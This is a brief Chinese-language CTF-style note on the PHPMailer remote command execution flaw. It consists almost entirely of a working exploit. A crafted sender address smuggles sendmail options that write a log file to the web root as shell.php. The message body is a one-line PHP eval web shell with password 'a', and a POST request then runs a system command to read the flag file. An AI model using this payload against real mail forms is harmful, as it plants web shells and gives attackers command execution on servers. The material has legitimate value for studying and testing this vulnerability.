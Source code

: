 ## **PHPMailer远程命令执行漏洞**
```
发件人：byxe

邮箱："attacker\" -oQ/tmp -X/var/www/html/shell.php soapffz"@gmail.com

内容：<?php @eval($_POST[a]);?>

然后访问 URL/shell.php，密码为a。直接POST：a=system('cat /flag_is_here');即可
```